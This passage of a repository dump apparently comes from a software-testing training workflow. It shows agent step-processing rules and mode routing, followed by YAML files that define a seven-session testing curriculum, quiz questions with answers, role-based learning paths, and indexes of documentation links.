- **State Tracking**: Document progress in progress file using `stepsCompleted` array and session tracking
- **Continuable Sessions**: Users can pause after any session and resume later with full context preserved
- **Tri-Modal Structure**: Separate step folders for Create (steps-c/), Edit (steps-e/), and Validate (steps-v/) modes

### Step Processing Rules

1. **READ COMPLETELY**: Always read the entire step file before taking any action
2. **FOLLOW SEQUENCE**: Execute all numbered sections in order, never deviate
3. **WAIT FOR INPUT**: If a menu is presented, halt and wait for user selection
4. **CHECK CONTINUATION**: If the step has a menu with Continue as an option, only proceed to next step when user selects 'C' (Continue)
5. **SAVE STATE**: Update `stepsCompleted` and session tracking in progress file before loading next step
6. **LOAD NEXT**: When directed, load, read entire file, then execute the next step file

### Critical Rules (NO EXCEPTIONS)

- 🛑 **NEVER** load multiple step files simultaneously
- 📖 **ALWAYS** read entire step file before execution
- 🚫 **NEVER** skip steps or optimize the sequence
- 💾 **ALWAYS** update progress file after each session completion
- 🎯 **ALWAYS** follow the exact instructions in the step file
- ⏸️ **ALWAYS** halt at menus and wait for user input
- 📋 **NEVER** create mental todo lists from future steps
- ✅ **ALWAYS** communicate in {communication_language}

---

## INITIALIZATION SEQUENCE

### 1. Configuration Loading

Load and read full config from {project-root}/\_bmad/tea/config.yaml (or module config if TEA module installed) and resolve:

- `project_name`, `user_name`, `communication_language`, `test_artifacts`
- TEA module variables: `test_artifacts` (base output folder for test-related artifacts)

### 2. Mode Determination

**Check if mode was specified in the command invocation:**

- If user invoked with "create" or "teach" or "learn" or "start" → Set mode to **create**
- If user invoked with "validate" or "review" or "-v" or "--validate" → Set mode to **validate**
- If user invoked with "edit" or "modify" or "-e" or "--edit" → Set mode to **edit**

**If mode is still unclear, ask user:**

"Welcome to TEA Academy! What would you like to do?

**[C]reate** - Start learning sessions (new or continue existing progress)
**[V]alidate** - Review workflow quality and generate validation report
**[E]dit** - Modify workflow content or structure

Please select: [C]reate / [V]alidate / [E]dit"

### 3. Route to First Step

**IF mode == create:**
Load, read the full file and then execute `./steps-c/step-01-init.md` to begin the teaching workflow.

**IF mode == validate:**
Prompt for workflow path (if validating the workflow itself): "Which workflow would you like to validate?"
Then load, read the full file and then execute `./steps-v/step-v-01-validate.md`

**IF mode == edit:**
Prompt for what to edit: "What would you like to edit in the teaching workflow?"
Then load, read the full file and then execute `./steps-e/step-e-01-assess-workflow.md`
```

## File: `src/workflows/testarch/bmad-teach-me-testing/data/curriculum.yaml`
```yaml
# TEA Academy Curriculum Structure
# Defines the 7-session learning path with objectives and content mappings

sessions:
  - id: session-01-quickstart
    name: "Quick Start"
    duration: "30 min"
    difficulty: beginner
    objective: "Get immediate value by seeing TEA in action"
    description: "TEA Lite intro, run automate workflow, understand engagement models"
    recommended_for:
      - beginner
      - intermediate
      - experienced
    prerequisites: []

  - id: session-02-concepts
    name: "Core Concepts"
    duration: "45 min"
    difficulty: beginner
    objective: "Understand WHY behind TEA principles"
    description: "Risk-based testing, DoD, testing as engineering philosophy"
    recommended_for:
      - beginner
      - intermediate
    prerequisites: []

  - id: session-03-architecture
    name: "Architecture & Patterns"
    duration: "60 min"
    difficulty: intermediate
    objective: "Understand TEA patterns and architecture"
    description: "Fixtures, network-first patterns, data factories, step-file architecture"
    recommended_for:
      - intermediate
      - experienced
    prerequisites:
      - session-02-concepts

  - id: session-04-test-design
    name: "Test Design"
    duration: "60 min"
    difficulty: intermediate
    objective: "Learn risk assessment and coverage planning"
    description: "Test Design workflow, risk/testability assessment, coverage planning"
    recommended_for:
      - intermediate
      - experienced
    prerequisites:
      - session-02-concepts

  - id: session-05-atdd-automate
    name: "ATDD & Automate"
    duration: "60 min"
    difficulty: intermediate
    objective: "Generate tests with TDD red-green approach"
    description: "ATDD workflow (red phase), Automate workflow, component TDD, API testing"
    recommended_for:
      - intermediate
      - experienced
    prerequisites:
      - session-02-concepts

  - id: session-06-quality-trace
    name: "Quality & Trace"
    duration: "45 min"
    difficulty: intermediate
    objective: "Audit quality and ensure traceability"
    description: "Test Review (5 dimensions), Trace workflow, quality metrics"
    recommended_for:
      - intermediate
      - experienced
    prerequisites:
      - session-02-concepts

  - id: session-07-advanced
    name: "Advanced Patterns"
    duration: "ongoing"
    difficulty: advanced
    objective: "Deep-dive into specific knowledge fragments"
    description: "Menu-driven exploration of 42 knowledge fragments organized by category"
    recommended_for:
      - experienced
    prerequisites: []

# Learning Paths by Experience Level
learning_paths:
  beginner:
    recommended_sequence:
      - session-01-quickstart
      - session-02-concepts
      - session-03-architecture
      - session-04-test-design
      - session-05-atdd-automate
      - session-06-quality-trace
      - session-07-advanced
    skip_optional: []

  intermediate:
    recommended_sequence:
      - session-01-quickstart
      - session-02-concepts
      - session-03-architecture
      - session-04-test-design
      - session-05-atdd-automate
      - session-06-quality-trace
      - session-07-advanced
    skip_optional:
      - session-01-quickstart # Can skip if already familiar
    certificate_eligible_if_skipped: false

  experienced:
    recommended_sequence:
      - session-02-concepts
      - session-03-architecture
      - session-04-test-design
      - session-05-atdd-automate
      - session-06-quality-trace
      - session-07-advanced
    skip_optional:
      - session-01-quickstart
    certificate_eligible_if_skipped: false

# Completion Requirements
completion:
  minimum_sessions: 7 # All sessions required for certificate
  passing_score: 70 # Minimum quiz score to pass session
  average_score_threshold: 70 # Minimum average for certificate
  certificate_note: "Certificate eligibility requires completion.minimum_sessions. If intermediate.skip_optional or experienced.skip_optional sessions are skipped, certificate eligibility is forfeited."
```

## File: `src/workflows/testarch/bmad-teach-me-testing/data/quiz-questions.yaml`
```yaml
# Quiz Questions Bank
# Organized by session with questions, answers, and explanations

session-01-quickstart:
  passing_score: 70
  questions:
    - id: q1-purpose
      question: "What is the primary purpose of TEA?"
      options:
        A: "Replace all testing tools with a single framework"
        B: "Make testing expertise accessible through structured workflows and knowledge"
        C: "Automate 100% of test writing"
        D: "Only works for Playwright tests"
      correct: B
      explanation: "TEA makes testing expertise accessible and scalable through workflows and knowledge fragments. It's not about replacing tools or automating everything."

    - id: q2-risk-matrix
      question: "What does the P0-P3 risk matrix help with?"
      options:
        A: "Prioritizing test coverage based on criticality"
        B: "Grading test code quality"
        C: "Measuring test execution speed"
        D: "Tracking bug severity"
      correct: A
      explanation: "P0-P3 helps prioritize what to test based on risk (Probability × Impact). P0 = critical features like login, P3 = nice-to-have like tooltips."

    - id: q3-engagement
      question: "Which TEA engagement model is best for quick value in 30 minutes?"
      options:
        A: "TEA Enterprise"
        B: "TEA Lite"
        C: "TEA Integrated"
        D: "TEA Brownfield"
      correct: B
      explanation: "TEA Lite is the 30-minute quick start approach. Enterprise and Integrated are more comprehensive."

session-02-concepts:
  passing_score: 70
  questions:
    - id: q1-p0-priority
      question: "In the P0-P3 matrix, what priority level should login/authentication have?"
      options:
        A: "P3 - Low priority"
        B: "P2 - Medium priority"
        C: "P1 - High priority"
        D: "P0 - Critical priority"
      correct: D
      explanation: "Login/authentication is P0 - critical. Business fails if broken. High usage, high impact, business-critical."

    - id: q2-hard-waits
      question: "What is the problem with using sleep(5000) instead of waitFor conditions?"
      options:
        A: "It makes tests slower"
        B: "It's a hard wait that doesn't react to state changes (violates DoD)"
        C: "It uses too much memory"
        D: "It's not supported in modern frameworks"
      correct: B
      explanation: "Hard waits don't react to state changes - they guess timing. Use waitFor to react to conditions. This violates TEA Definition of Done."

    - id: q3-self-cleaning
      question: "What does 'self-cleaning tests' mean in TEA Definition of Done?"
      options:
        A: "Tests automatically fix their own bugs"
        B: "Tests delete/deactivate entities they create during testing"
        C: "Tests run faster by cleaning up code"
        D: "Tests remove old test files"
      correct: B
      explanation: "Self-cleaning means tests delete/deactivate entities they created. No manual cleanup required."

session-03-architecture:
  passing_score: 70
  questions:
    - id: q1-fixtures
      question: "What is the main benefit of fixture composition?"
      options:
        A: "Faster test execution"
        B: "DRY - define once, reuse everywhere"
        C: "Better error messages"
        D: "Automatic screenshot capture"
      correct: B
      explanation: "Fixture composition allows you to define setup once and reuse everywhere. DRY principle for test setup."

    - id: q2-network-first
      question: "Why is 'network-first' better than mocking after the action?"
      options:
        A: "It's faster"
        B: "It prevents race conditions"
        C: "It uses less memory"
        D: "It's easier to write"
      correct: B
      explanation: "Setting up network interception BEFORE the action prevents race conditions. The mock is ready when the action triggers."

    - id: q3-step-file
      question: "What pattern does this teaching workflow use?"
      options:
        A: "Page Object Model"
        B: "Behavior Driven Development"
        C: "Step-File Architecture"
        D: "Test Pyramid"
      correct: C
      explanation: "This workflow uses step-file architecture: micro-file design, just-in-time loading, sequential enforcement."

session-04-test-design:
  passing_score: 70
  questions:
    - id: q1-test-design-purpose
      question: "What does the Test Design workflow help you do?"
      options:
        A: "Write tests faster"
        B: "Plan tests BEFORE writing them"
        C: "Run tests in parallel"
        D: "Debug test failures"
      correct: B
      explanation: "Test Design workflow helps you plan tests before writing them. Design before code, like architecture before implementation."

    - id: q2-risk-calculation
      question: "How do you calculate risk?"
      options:
        A: "Probability + Impact"
        B: "Probability × Impact"
        C: "Probability - Impact"
        D: "Probability / Impact"
      correct: B
      explanation: "Risk = Probability × Impact. Multiply the likelihood of failure by the impact of failure."

    - id: q3-p0-coverage
      question: "For P0 features, which test levels should you use?"
      options:
        A: "Only E2E tests"
        B: "Only unit tests"
        C: "Unit + Integration + E2E (comprehensive)"
        D: "Manual testing only"
      correct: C
      explanation: "P0 features need comprehensive coverage: Unit + Integration + E2E. High confidence for critical features."

session-05-atdd-automate:
  passing_score: 70
  questions:
    - id: q1-red-phase
      question: "What is the 'red' phase in TDD?"
      options:
        A: "Tests fail (code doesn't exist yet)"
        B: "Tests pass"
        C: "Code is refactored"
        D: "Tests are deleted"
      correct: A
      explanation: "Red phase: Tests fail because the code doesn't exist yet. Write tests first, then implement."

    - id: q2-atdd-vs-automate
      question: "What's the difference between ATDD and Automate workflows?"
      options:
        A: "ATDD generates E2E, Automate generates API tests"
        B: "ATDD writes tests first (red phase), Automate tests existing code"
        C: "ATDD is faster than Automate"
        D: "They're the same workflow"
      correct: B
      explanation: "ATDD writes failing tests first (red phase), then you implement. Automate generates tests for existing code (coverage expansion)."

    - id: q3-api-testing
      question: "Why use pure API tests without a browser?"
      options:
        A: "They look prettier"
        B: "They're easier to debug"
        C: "They're faster and test business logic directly"
        D: "They're required by TEA"
      correct: C
      explanation: "Pure API tests are faster (no browser overhead) and test business logic directly without UI complexity."

session-06-quality-trace:
  passing_score: 70
  questions:
    - id: q1-five-dimensions
      question: "What are the 5 dimensions in Test Review workflow?"
      options:
        A: "Speed, cost, coverage, bugs, time"
        B: "Determinism, Isolation, Assertions, Structure, Performance"
        C: "Unit, integration, E2E, manual, exploratory"
        D: "P0, P1, P2, P3, P4"
      correct: B
      explanation: "Test Review evaluates 5 dimensions: Determinism (no flakiness), Isolation (parallel-safe), Assertions (correct checks), Structure (readable/maintainable organization), Performance (speed)."

    - id: q2-release-gate
      question: "When should the Trace workflow gate decision be RED (block release)?"
      options:
        A: "Any test failures exist"
        B: "P0 gaps exist (critical requirements not tested)"
        C: "Code coverage is below 80%"
        D: "Tests are slow"
      correct: B
      explanation: "RED gate when P0 gaps exist - critical requirements not tested. Don't ship if critical features lack test coverage."

    - id: q3-metrics
      question: "Which metric matters most for quality?"
      options:
        A: "Total line coverage %"
        B: "Number of tests written"
        C: "P0/P1 coverage %"
        D: "Test file count"
      correct: C
      explanation: "P0/P1 coverage matters most - it measures coverage of critical/high-priority features. Total line coverage is a vanity metric."

session-07-advanced:
  # No quiz - exploratory session
  # Score: 100 (completion based, not quiz based)
  passing_score: 100
  questions: []
```

## File: `src/workflows/testarch/bmad-teach-me-testing/data/role-paths.yaml`
```yaml
# Role-Based Content Customization
# Defines how teaching examples and focus areas adapt based on learner role

roles:
  qa:
    display_name: "QA Engineer"
    focus_areas:
      - Practical testing workflow usage
      - Test framework setup and maintenance
      - Test quality and coverage metrics
      - CI/CD integration
    example_contexts:
      - "Expanding test coverage for existing features"
      - "Setting up test framework for new project"
      - "Reducing flaky tests in CI pipeline"
      - "Improving test execution speed"
    recommended_sessions:
      - session-01-quickstart
      - session-02-concepts
      - session-03-architecture
      - session-05-atdd-automate
      - session-06-quality-trace
    teaching_adaptations:
      session-01-quickstart: "Focus on Automate workflow - quickly expand coverage"
      session-02-concepts: "Emphasize P0-P3 for defending coverage decisions"
      session-03-architecture: "Fixture patterns for maintainable test suites"
      session-04-test-design: "Test design for planning coverage expansion"
      session-05-atdd-automate: "ATDD and Automate for test generation"
      session-06-quality-trace: "Test Review for quality metrics reporting"
      session-07-advanced: "Playwright Utils for advanced testing patterns"

  dev:
    display_name: "Software Developer"
    focus_areas:
      - Integration testing perspective
      - TDD approach
      - Test-driven development workflow
      - Unit and integration tests
    example_contexts:
      - "Writing tests alongside feature development"
      - "Using ATDD to drive implementation"
      - "Integrating tests into development workflow"
      - "Testing APIs and business logic"
    recommended_sessions:
      - session-01-quickstart
      - session-02-concepts
      - session-05-atdd-automate
      - session-03-architecture
      - session-04-test-design
    teaching_adaptations:
      session-01-quickstart: "Focus on ATDD - tests drive implementation"
      session-02-concepts: "Connect DoD to code quality standards"
      session-03-architecture: "Fixtures as code patterns, like dependency injection"
      session-04-test-design: "Risk assessment before writing code"
      session-05-atdd-automate: "Red-green-refactor TDD cycle"
      session-06-quality-trace: "Test quality like code quality - refactoring applies"
      session-07-advanced: "API testing patterns, component TDD"

  lead:
    display_name: "Tech Lead / Engineering Manager"
    focus_areas:
      - Test architecture decisions
      - Team testing patterns
      - Framework and tooling choices
      - Quality standards enforcement
    example_contexts:
      - "Establishing team testing standards"
      - "Choosing test architecture patterns"
      - "Code review for test quality"
      - "Scaling test automation across team"
    recommended_sessions:
      - session-01-quickstart
      - session-03-architecture
      - session-04-test-design
      - session-06-quality-trace
      - session-07-advanced
    teaching_adaptations:
      session-01-quickstart: "TEA as team standard - scalable patterns"
      session-02-concepts: "DoD as code review checklist - enforce quality"
      session-03-architecture: "Architecture patterns for team consistency"
      session-04-test-design: "Test design as planning phase in development"
      session-05-atdd-automate: "ATDD for team TDD adoption"
      session-06-quality-trace: "Test Review for quality metrics and team standards"
      session-07-advanced: "Step-file architecture, fixture patterns, CI governance"

  vp:
    display_name: "VP Engineering / Director"
    focus_areas:
      - Testing strategy and ROI
      - Quality metrics that matter
      - Team scalability
      - Risk management through testing
    example_contexts:
      - "Justifying test automation investment"
      - "Scaling testing across multiple teams"
      - "Quality metrics for stakeholder reporting"
      - "Risk mitigation through test coverage"
    recommended_sessions:
      - session-01-quickstart
      - session-02-concepts
      - session-04-test-design
      - session-06-quality-trace
    teaching_adaptations:
      session-01-quickstart: "TEA scales testing without scaling headcount"
      session-02-concepts: "Risk-based testing aligns engineering with business impact"
      session-03-architecture: "Architecture patterns reduce maintenance costs"
      session-04-test-design: "Test design makes risk visible to stakeholders"
      session-05-atdd-automate: "ATDD reduces defect rates early"
      session-06-quality-trace: "Quality metrics: P0/P1 coverage, not vanity metrics"
      session-07-advanced: "Governance patterns, CI orchestration, NFR assessment"

# Role-Based Example Types
example_types:
  qa:
    - "Test suite maintenance scenarios"
    - "Coverage expansion projects"
    - "Flaky test debugging"
    - "CI pipeline configuration"

  dev:
    - "Feature development with TDD"
    - "API integration testing"
    - "Unit test patterns"
    - "Mocking and stubbing"

  lead:
    - "Team architecture decisions"
    - "Code review scenarios"
    - "Standard enforcement"
    - "Tooling selection"

  vp:
    - "ROI calculations"
    - "Quality dashboards"
    - "Risk reporting"
    - "Team scaling strategies"
```

## File: `src/workflows/testarch/bmad-teach-me-testing/data/session-content-map.yaml`
```yaml
# Session Content Mapping
# Maps each session to specific TEA documentation, knowledge fragments, and online resources

base_paths:
  tea_docs: "/docs"
  tea_knowledge: "/src/agents/bmad-tea/resources/knowledge"
  online_base: "https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise"
  github_knowledge: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/tree/main/src/agents/bmad-tea/resources/knowledge"

sessions:
  session-01-quickstart:
    docs:
      - path: "/brain/knowledge/docs_legacy/tutorials/tea-lite-quickstart.md"
        title: "TEA Lite Quickstart"
        url: "https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/tutorials/tea-lite-quickstart/"
      - path: "/brain/knowledge/docs_legacy/explanation/tea-overview.md"
        title: "TEA Overview"
        url: "https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/explanation/tea-overview/"
      - path: "/brain/knowledge/docs_legacy/how-to/workflows/run-automate.md"
        title: "Run Automate Workflow"
        url: "https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/how-to/workflows/run-automate/"
    knowledge_fragments: []
    online_references:
      - "https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/"
    workflows_referenced:
      - automate
    key_concepts:
      - "What is TEA"
      - "TEA Lite approach"
      - "Engagement models"
      - "9 workflows overview"

  session-02-concepts:
    docs:
      - path: "/brain/knowledge/docs_legacy/explanation/testing-as-engineering.md"
        title: "Testing as Engineering"
        url: "https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/explanation/testing-as-engineering/"
      - path: "/brain/knowledge/docs_legacy/explanation/risk-based-testing.md"
        title: "Risk-Based Testing"
        url: "https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/explanation/risk-based-testing/"
      - path: "/brain/knowledge/docs_legacy/explanation/test-quality-standards.md"
        title: "Test Quality Standards"
        url: "https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/explanation/test-quality-standards/"
    knowledge_fragments:
      - path: "/src/agents/bmad-tea/resources/knowledge/test-quality.md"
        title: "Test Quality (DoD Execution Limits)"
      - path: "/src/agents/bmad-tea/resources/knowledge/probability-impact.md"
        title: "Probability × Impact Scoring"
    online_references:
      - "https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/explanation/testing-as-engineering/"
      - "https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/explanation/risk-based-testing/"
    workflows_referenced: []
    key_concepts:
      - "Testing as engineering philosophy"
      - "P0-P3 risk matrix"
      - "Probability × Impact scoring"
      - "Definition of Done (7 principles)"

  session-03-architecture:
    docs:
      - path: "/brain/knowledge/docs_legacy/explanation/fixture-architecture.md"
        title: "Fixture Architecture"
        url: "https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/explanation/fixture-architecture/"
      - path: "/brain/knowledge/docs_legacy/explanation/network-first-patterns.md"
        title: "Network-First Patterns"
        url: "https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/explanation/network-first-patterns/"
      - path: "/brain/knowledge/docs_legacy/explanation/step-file-architecture.md"
        title: "Step-File Architecture"
        url: "https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/explanation/step-file-architecture/"
    knowledge_fragments:
      - path: "/src/agents/bmad-tea/resources/knowledge/fixture-architecture.md"
        title: "Fixture Architecture Patterns"
      - path: "/src/agents/bmad-tea/resources/knowledge/network-first.md"
        title: "Network-First Implementation"
      - path: "/src/agents/bmad-tea/resources/knowledge/data-factories.md"
        title: "Data Factories Pattern"
    online_references:
      - "https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/explanation/fixture-architecture/"
    workflows_referenced:
      - framework
    key_concepts:
      - "Fixture composition"
      - "Network interception patterns"
      - "Data factory pattern"
      - "Step-file architecture"

  session-04-test-design:
    docs:
      - path: "/brain/knowledge/docs_legacy/how-to/workflows/run-test-design.md"
        title: "Run Test Design Workflow"
        url: "https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/how-to/workflows/run-test-design/"
    knowledge_fragments:
      - path: "/src/agents/bmad-tea/resources/knowledge/test-levels-framework.md"
        title: "Test Levels Framework"
      - path: "/src/agents/bmad-tea/resources/knowledge/test-priorities-matrix.md"
        title: "Test Priorities Matrix"
    online_references:
      - "https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/how-to/workflows/run-test-design/"
    workflows_referenced:
      - test-design
    key_concepts:
      - "Test Design workflow steps"
      - "Risk/testability assessment"
      - "Coverage planning"
      - "Test levels (unit/integration/E2E)"

  session-05-atdd-automate:
    docs:
      - path: "/brain/knowledge/docs_legacy/how-to/workflows/run-atdd.md"
        title: "Run ATDD Workflow"
        url: "https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/how-to/workflows/run-atdd/"
      - path: "/brain/knowledge/docs_legacy/how-to/workflows/run-automate.md"
        title: "Run Automate Workflow"
        url: "https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/how-to/workflows/run-automate/"
    knowledge_fragments:
      - path: "/src/agents/bmad-tea/resources/knowledge/component-tdd.md"
        title: "Component TDD Red-Green Loop"
      - path: "/src/agents/bmad-tea/resources/knowledge/api-testing-patterns.md"
        title: "API Testing Patterns"
      - path: "/src/agents/bmad-tea/resources/knowledge/api-request.md"
        title: "API Request Utility"
    online_references:
      - "https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/how-to/workflows/run-atdd/"
      - "https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/how-to/workflows/run-automate/"
    workflows_referenced:
      - atdd
      - automate
    key_concepts:
      - "ATDD workflow (red phase)"
      - "TDD red-green-refactor"
      - "Automate workflow (coverage expansion)"
      - "API testing without browser"

  session-06-quality-trace:
    docs:
      - path: "/brain/knowledge/docs_legacy/how-to/workflows/run-test-review.md"
        title: "Run Test Review Workflow"
        url: "https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/how-to/workflows/run-test-review/"
      - path: "/brain/knowledge/docs_legacy/how-to/workflows/run-trace.md"
        title: "Run Trace Workflow"
        url: "https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/how-to/workflows/run-trace/"
    knowledge_fragments: []
    online_references:
      - "https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/how-to/workflows/run-test-review/"
      - "https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/how-to/workflows/run-trace/"
    workflows_referenced:
      - test-review
      - trace
    key_concepts:
      - "5 dimensions of test quality"
      - "Quality scoring (0-100)"
      - "Requirements traceability"
      - "Release gate decisions"

  session-07-advanced:
    docs: []
    knowledge_fragments:
      categories:
        testing_patterns:
          - fixture-architecture.md
          - fixtures-composition.md
          - network-first.md
          - data-factories.md
          - component-tdd.md
          - api-testing-patterns.md
          - test-healing-patterns.md
          - selector-resilience.md
          - timing-debugging.md

        playwright_utils:
          - overview.md
          - api-request.md
          - network-recorder.md
          - intercept-network-call.md
          - recurse.md
          - log.md
          - file-utils.md
          - burn-in.md
          - network-error-monitor.md
          - contract-testing.md
          - pactjs-utils-overview.md
          - pactjs-utils-consumer-helpers.md
          - pactjs-utils-provider-verifier.md
          - pactjs-utils-request-filter.md
          - pact-mcp.md
          - pact-consumer-framework-setup.md
          - pact-consumer-di.md
          - visual-debugging.md

        browser_automation:
          - playwright-cli.md

        configuration_governance:
          - playwright-config.md
          - ci-burn-in.md
          - selective-testing.md
          - feature-flags.md
          - risk-governance.md
          - adr-quality-readiness-checklist.md

        quality_frameworks:
          - test-quality.md
          - test-levels-framework.md
          - test-priorities-matrix.md
          - probability-impact.md
          - nfr-criteria.md

        auth_security:
          - email-auth.md
          - auth-session.md
          - error-handling.md
    online_references:
      - "https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/reference/knowledge-base/"
      - "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/tree/main/src/agents/bmad-tea/resources/knowledge"
    workflows_referenced: []
    key_concepts:
      - "Menu-driven fragment exploration"
      - "Just-in-time deep-dive learning"
      - "42 knowledge fragments organized by category"
```

## File: `src/workflows/testarch/bmad-teach-me-testing/data/tea-resources-index.yaml`
```yaml
# TEA Resources Index
# Comprehensive index of TEA documentation, knowledge fragments, and online resources

base_urls:
  online_docs: "https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise"
  github_repo: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise"
  github_knowledge: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/tree/main/src/agents/bmad-tea/resources/knowledge"

# Public Documentation (32 files)
documentation:
  tutorials:
    - name: "Getting Started with Test Architect"
      local: "/brain/knowledge/docs_legacy/tutorials/tea-lite-quickstart.md"
      online: "/tutorials/tea-lite-quickstart/"
      description: "30-minute quick start guide to TEA Lite"

  how_to_guides:
    workflows:
      - name: "Set Up Test Framework"
        local: "/brain/knowledge/docs_legacy/how-to/workflows/setup-test-framework.md"
        online: "/how-to/workflows/setup-test-framework/"
        workflow: framework

      - name: "Set Up CI Pipeline"
        local: "/brain/knowledge/docs_legacy/how-to/workflows/setup-ci.md"
        online: "/how-to/workflows/setup-ci/"
        workflow: ci

      - name: "Test Design"
        local: "/brain/knowledge/docs_legacy/how-to/workflows/run-test-design.md"
        online: "/how-to/workflows/run-test-design/"
        workflow: test-design

      - name: "ATDD"
        local: "/brain/knowledge/docs_legacy/how-to/workflows/run-atdd.md"
        online: "/how-to/workflows/run-atdd/"
        workflow: atdd

      - name: "Automate"
        local: "/brain/knowledge/docs_legacy/how-to/workflows/run-automate.md"
        online: "/how-to/workflows/run-automate/"
        workflow: automate

      - name: "Test Review"
        local: "/brain/knowledge/docs_legacy/how-to/workflows/run-test-review.md"
        online: "/how-to/workflows/run-test-review/"
        workflow: test-review

      - name: "Trace"
        local: "/brain/knowledge/docs_legacy/how-to/workflows/run-trace.md"
        online: "/how-to/workflows/run-trace/"
        workflow: trace

      - name: "NFR Assessment"
        local: "/brain/knowledge/docs_legacy/how-to/workflows/run-nfr-assess.md"
        online: "/how-to/workflows/run-nfr-assess/"
        workflow: nfr-assess

    customization:
      - name: "Configure Browser Automation"
        local: "/brain/knowledge/docs_legacy/how-to/customization/configure-browser-automation.md"
        online: "/how-to/customization/configure-browser-automation/"

      - name: "Integrate Playwright Utils with TEA"
        local: "/brain/knowledge/docs_legacy/how-to/customization/integrate-playwright-utils.md"
        online: "/how-to/customization/integrate-playwright-utils/"

    brownfield:
      - name: "Running TEA for Enterprise Projects"
        local: "/brain/knowledge/docs_legacy/how-to/brownfield/use-tea-for-enterprise.md"
        online: "/how-to/brownfield/use-tea-for-enterprise/"

      - name: "Using TEA with Existing Tests"
        local: "/brain/knowledge/docs_legacy/how-to/brownfield/use-tea-with-existing-tests.md"
        online: "/how-to/brownfield/use-tea-with-existing-tests/"

  explanation:
    - name: "TEA Overview"
      local: "/brain/knowledge/docs_legacy/explanation/tea-overview.md"
      online: "/explanation/tea-overview/"
      topics: ["Architecture", "Engagement models"]

    - name: "Testing as Engineering"
      local: "/brain/knowledge/docs_legacy/explanation/testing-as-engineering.md"
      online: "/explanation/testing-as-engineering/"
      topics: ["Philosophy", "Design principles"]

    - name: "Engagement Models"
      local: "/brain/knowledge/docs_legacy/explanation/engagement-models.md"
      online: "/explanation/engagement-models/"
      topics: ["Lite", "Solo", "Integrated", "Enterprise", "Brownfield"]

    - name: "Risk-Based Testing"
      local: "/brain/knowledge/docs_legacy/explanation/risk-based-testing.md"
      online: "/explanation/risk-based-testing/"
      topics: ["P0-P3 matrix", "Probability × Impact"]

    - name: "Test Quality Standards"
      local: "/brain/knowledge/docs_legacy/explanation/test-quality-standards.md"
      online: "/explanation/test-quality-standards/"
      topics: ["Definition of Done", "7 principles"]

    - name: "Knowledge Base System"
      local: "/brain/knowledge/docs_legacy/explanation/knowledge-base-system.md"
      online: "/explanation/knowledge-base-core/"
      topics: ["Fragment management", "42 fragments"]

    - name: "Network-First Patterns"
      local: "/brain/knowledge/docs_legacy/explanation/network-first-patterns.md"
      online: "/explanation/network-first-patterns/"
      topics: ["Network interception", "Race condition prevention"]

    - name: "Fixture Architecture"
      local: "/brain/knowledge/docs_legacy/explanation/fixture-architecture.md"
      online: "/explanation/fixture-architecture/"
      topics: ["Composition", "mergeTests pattern"]

    - name: "Step-File Architecture"
      local: "/brain/knowledge/docs_legacy/explanation/step-file-architecture.md"
      online: "/explanation/step-file-architecture/"
      topics: ["Micro-file design", "JIT loading", "Sequential enforcement"]

    - name: "Subagent Architecture"
      local: "/brain/knowledge/docs_legacy/explanation/subagent-architecture.md"
      online: "/explanation/subagent-architecture/"
      topics: ["Parallel execution", "Context optimization"]

  reference:
    - name: "Commands"
      local: "/brain/knowledge/docs_legacy/reference/commands.md"
      online: "/reference/commands/"

    - name: "Configuration"
      local: "/brain/knowledge/docs_legacy/reference/configuration.md"
      online: "/reference/configuration/"

    - name: "Knowledge Base"
      local: "/brain/knowledge/docs_legacy/reference/knowledge-base.md"
      online: "/reference/knowledge-base/"
      github_link: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/tree/main/src/agents/bmad-tea/resources/knowledge"

    - name: "Troubleshooting"
      local: "/brain/knowledge/docs_legacy/reference/troubleshooting.md"
      online: "/reference/troubleshooting/"

# Knowledge Fragments (41 files)
knowledge_fragments:
  testing_patterns:
    - name: "fixture-architecture"
      path: "/src/agents/bmad-tea/resources/knowledge/fixture-architecture.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/fixture-architecture.md"
      description: "Composable fixture patterns and mergeTests"

    - name: "fixtures-composition"
      path: "/src/agents/bmad-tea/resources/knowledge/fixtures-composition.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/fixtures-composition.md"
      description: "mergeTests composition patterns for combining utilities"

    - name: "network-first"
      path: "/src/agents/bmad-tea/resources/knowledge/network-first.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/network-first.md"
      description: "Network interception safeguards"

    - name: "data-factories"
      path: "/src/agents/bmad-tea/resources/knowledge/data-factories.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/data-factories.md"
      description: "Data seeding and setup patterns"

